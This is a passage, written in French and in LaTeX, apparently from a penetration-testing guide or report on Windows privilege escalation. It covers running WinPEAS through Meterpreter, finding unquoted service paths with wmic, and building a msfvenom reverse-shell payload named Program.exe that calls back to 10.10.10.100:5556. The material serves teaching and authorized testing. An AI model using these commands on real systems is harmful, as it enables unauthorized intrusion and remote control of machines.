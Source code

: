\subsection{Énumération Automatisée, WinPEAS}
\label{subsec:winpeas}

 est l'équivalent Windows de LinPEAS, il énumère
automatiquement les vecteurs d'escalade et code les résultats par couleur.

\begin{lstlisting}[language=bash, caption={WinPEAS, déploiement depuis Meterpreter}]
# Depuis la session Meterpreter (shell SYSTEM ou utilisateur)
upload /tools/winPEASx64.exe C:\Temp\wp.exe
shell
C:\Temp\wp.exe > C:\Temp\winpeas_output.txt 2>&1
exit
download C:\Temp\winpeas_output.txt /tmp/winpeas_lizbiz.txt
\end{lstlisting}

\subsection{Vecteurs d'Escalade Windows}
\label{subsec:windows_vectors}

\subsubsection{Unquoted Service Path}

Si le chemin d'un service Windows contient des espaces et n'est pas entre
guillemets, Windows cherche l'exécutable dans chaque composant du chemin.

\begin{lstlisting}[language=bash, caption={Unquoted Service Path, détection et exploitation}]
# Détecter les services avec chemin non quoté
wmic service get name,displayname,pathname,startmode | \
     findstr /i "auto" | findstr /i /v "C:\Windows" | \
     findstr /i /v """

# Exemple vulnérable :
# C:\Program Files\LiZbiZ Security\Agent\agent.exe
# Windows cherche dans l'ordre :
# C:\Program.exe  ← CRÉER ICI un reverse shell renommé Program.exe
# C:\Program Files\LiZbiZ.exe
# C:\Program Files\LiZbiZ Security\Agent.exe

# Créer le payload
msfvenom -p windows/x64/shell_reverse_tcp \
         LHOST=10.10.10.100 LPORT=5556 \
         -f exe -o Program.exe
\end{lstlisting}

\subsubsection{SeImpersonatePrivilege, PrintSpoofer et RoguePotato}

